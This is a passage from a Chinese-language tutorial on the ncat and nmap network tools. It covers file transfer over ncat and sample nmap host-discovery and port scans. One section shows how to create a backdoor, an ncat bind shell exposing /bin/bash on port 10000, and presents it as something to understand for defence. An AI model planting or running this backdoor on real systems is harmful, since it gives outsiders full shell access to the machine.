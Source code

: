 现在去要被拷贝数据的机器上运行下面命令：

```sh
$ ncat 192.168.1.100 8080 --send-only < data.txt
```

这里，data.txt 是要发送的文件。 `-–send-only` 选项会在文件拷贝完后立即关闭连接。

如果不加该选项，我们需要手工按下 `ctrl+c` 来关闭连接。

### 1.9. 通过 nc 创建后门

nc 命令还可以用来在系统中创建后门，并且这种技术也确实被黑客大量使用。 为了保护我们的系统，我们需要知道它是怎么做的。 创建后门的命令为：

```sh
$ ncat -l 10000 -e /bin/bash
```

-e 标志将一个 bash 与端口 10000 相连。现在客户端只要连接到服务器上的 10000 端口就能通过 bash 获取我们系统的完整访问权限：

```sh
$ ncat 192.168.1.100 10000
```

## 2. nmap: 专用于IP扫描工具
> [wechat: NMAP网络扫描工具](https://mp.weixin.qq.com/s/Tc4y59eICdNi3TxhZMvm2A)

### 2.1. 仅扫描IP地址（使用ping）

通过ping检测扫描目标网络中的活动主机（主机发现）

```sh
nmap   -sP  192.168.10.0/24
# 输出
Starting Nmap 6.40 ( http://nmap.org ) at 2020-12-22 16:46 CST
Nmap scan report for 192.168.0.1
Host is up (0.0013s latency).
Nmap scan report for 192.168.0.2
Host is up (0.0011s latency).
Nmap scan report for 192.168.0.3
Host is up (0.0041s latency).
Nmap scan report for 192.168.0.4
Host is up (0.019s latency).
Nmap scan report for 192.168.0.16
Host is up (0.00057s latency).
Nmap scan report for bbs.heroje.com (192.168.0.17)
Host is up (0.00050s latency).
...
Nmap done: 256 IP addresses (34 hosts up) scanned in 3.93 seconds
```

### 2.2. 扫描目标网段的常用TCP端口

```sh
nmap  -v  192.168.10.0/24
# 输出
...
Nmap scan report for 192.168.10.0 [host down]
Nmap scan report for 192.168.10.3 [host down]
...
Initiating Parallel DNS resolution of 1 host. at 13:24
Completed Parallel DNS resolution of 1 host. at 13:24, 0.06s elapsed
Initiating SYN Stealth Scan at 13:24
Scanning 3 hosts [1000 ports/host]
Discovered open port 53/tcp on 192.168.10.2
Completed SYN Stealth Scan against 192.168.10.2 in 0.13s (2 hosts left)
Discovered open port 445/tcp on 192.168.10.1
Discovered open port 135/tcp on 192.168.10.1
```